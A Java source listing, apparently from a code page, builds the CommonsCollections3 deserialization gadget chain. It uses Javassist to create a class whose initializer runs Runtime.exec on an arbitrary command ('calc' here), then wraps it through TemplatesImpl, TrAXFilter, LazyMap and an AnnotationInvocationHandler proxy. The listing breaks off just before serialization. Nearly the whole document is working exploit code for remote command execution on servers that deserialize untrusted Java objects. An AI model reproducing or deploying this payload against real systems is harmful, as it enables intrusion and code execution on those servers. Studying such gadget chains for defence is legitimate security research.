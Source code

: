 ```java

public class CommonCollections3{
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("snakin");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody("  Runtime.getRuntime().exec(\"" + cmd + "\");" );
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }

    public static void main(String[] args) throws Exception {
        byte[] code = getTemplatesImpl("calc");
        byte[][] bytecodes = {code};

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", bytecodes);
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                        new ConstantTransformer(TrAXFilter.class),
                        new InstantiateTransformer(
                                new Class[]{Templates.class},
                                new Object[]{obj}
                        )
                }
        );

        Map lazyMap = LazyMap.decorate(
                new HashMap(),
                chainedTransformer
        );

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        InvocationHandler handler = (InvocationHandler)constructor.newInstance(Override.class, lazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);

        InvocationHandler handlerPayload = (InvocationHandler)constructor.newInstance(Override.class, mapProxy);

        // ==================
        // 生成序列化字符串
```